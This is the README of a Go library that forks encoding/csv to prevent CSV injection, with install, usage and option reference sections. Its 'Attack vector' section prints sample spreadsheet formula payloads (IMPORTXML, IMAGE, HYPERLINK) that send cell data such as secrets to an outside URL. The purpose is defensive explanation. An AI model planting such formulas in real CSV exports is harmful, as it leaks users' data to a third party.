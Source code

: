
# Safe CSV writer

[![tag](https://img.shields.io/github/tag/samber/go-safe-csv-writer.svg)](https://github.com/samber/go-safe-csv-writer/releases)
![Go Version](https://img.shields.io/badge/Go-%3E%3D%201.22-%23007d9c)
[![GoDoc](https://godoc.org/github.com/samber/go-safe-csv-writer?status.svg)](https://pkg.go.dev/github.com/samber/go-safe-csv-writer)
![Build Status](https://github.com/samber/go-safe-csv-writer/actions/workflows/test.yml/badge.svg)
[![Go report](https://goreportcard.com/badge/github.com/samber/go-safe-csv-writer)](https://goreportcard.com/report/github.com/samber/go-safe-csv-writer)
[![Coverage](https://img.shields.io/codecov/c/github/samber/go-safe-csv-writer)](https://codecov.io/gh/samber/go-safe-csv-writer)
[![Contributors](https://img.shields.io/github/contributors/samber/go-safe-csv-writer)](https://github.com/samber/go-safe-csv-writer/graphs/contributors)
[![License](https://img.shields.io/github/license/samber/go-safe-csv-writer)](./LICENSE)

A fork of `encoding/csv` package from Go stdlib, preventing CSV injection and data exfiltration, while maintaining compatibility with the original library.

## 🥷 Attack vector

### Simple formula

The following CSV:

```csv
col1,col2,col3
-21-21,=A1,42
```

Would be rendered in Excel like this:

```csv
col1,col2,col3
-42,col1,42
```

### Advanced formula

The following CSV might request external resource and leak data.

```csv
userId,secret
1,secret1
2,secret2
3,"=IMPORTXML(CONCAT(""http://samuel-berthe.fr?dump="", CONCATENATE(A1:B6)), ""//a"")"
4,=IMAGE("http://samuel-berthe.fr?dump=" & INDIRECT("B2"))
5,=HYPERLINK("http://samuel-berthe.fr?dump=" & INDIRECT("B2"), "a link")
```

### Protect

See [https://georgemauer.net/2017/10/07/csv-injection.html](https://georgemauer.net/2017/10/07/csv-injection.html).

and [https://owasp.org/www-community/attacks/CSV_Injection](https://owasp.org/www-community/attacks/CSV_Injection)

## 🚀 Install

```sh
go get github.com/samber/go-safe-csv-writer
```

This library is v0 and follows SemVer strictly.

Some breaking changes might be made to exported APIs before v1.0.0.

## 🤠 Getting started

[GoDoc: https://godoc.org/github.com/samber/go-safe-csv-writer](https://godoc.org/github.com/samber/go-safe-csv-writer)

```go
import csv "github.com/samber/go-safe-csv-writer"

func main() {
    var buff strings.Builder

    writer := csv.NewSafeWriter(
        &buff,
        &SafetyOpts{
            ForceDoubleQuotes: true,
            EscapeCharEqual:   true,
        },
    )
    writer.Write([]string{"userId", "secret", "comment"})
    writer.Write([]string{"-21+63", "=A1", "foo, bar"})
    writer.Flush()

    if err := writer.Error(); err != nil {
        panic(err)
    }

    output := buff.String()
    // "userId","secret","comment"
    // "-21+63"," =A1","foo, bar"
}
```

## 🍱 Reference

```go
// Prototype:
func NewSafeWriter(w io.Writer, opts SafetyOpts) *SafeWriter
```

```go
// Available options:

type SafetyOpts struct {
    ForceDoubleQuotes bool
    EscapeCharEqual   bool
    EscapeCharPlus    bool
    EscapeCharMinus   bool
    EscapeCharAt      bool
    EscapeCharTab     bool
    EscapeCharCR      bool
}
```

```go
// Presets:

var FullSafety = SafetyOpts{
	ForceDoubleQuotes: true,
	EscapeCharEqual:   true,
	EscapeCharPlus:    true,
	EscapeCharMinus:   true,
	EscapeCharAt:      true,
	EscapeCharTab:     true,
	EscapeCharCR:      true,
}

var EscapeAll = SafetyOpts{
	ForceDoubleQuotes: false,
	EscapeCharEqual:   true,
	EscapeCharPlus:    true,
	EscapeCharMinus:   true,
	EscapeCharAt:      true,
	EscapeCharTab:     true,
	EscapeCharCR:      true,
}
```

## 🤝 Contributing

- Ping me on Twitter [@samuelberthe](https://twitter.com/samuelberthe) (DMs, mentions, whatever :))
- Fork the [project](https://github.com/samber/go-safe-csv-writer)
- Fix [open issues](https://github.com/samber/go-safe-csv-writer/issues) or request new features

Don't hesitate ;)

```bash
# Install some dev dependencies
make tools

# Run tests
make test
# or
make watch-test
```

## 👤 Contributors

![Contributors](https://contrib.rocks/image?repo=samber/go-safe-csv-writer)

## 💫 Show your support

Give a ⭐️ if this project helped you!

[![GitHub Sponsors](https://img.shields.io/github/sponsors/samber?style=for-the-badge)](https://github.com/sponsors/samber)

## 📝 License

Copyright © 2024 [Samuel Berthe](https://github.com/samber).

This project is [MIT](./LICENSE) licensed.
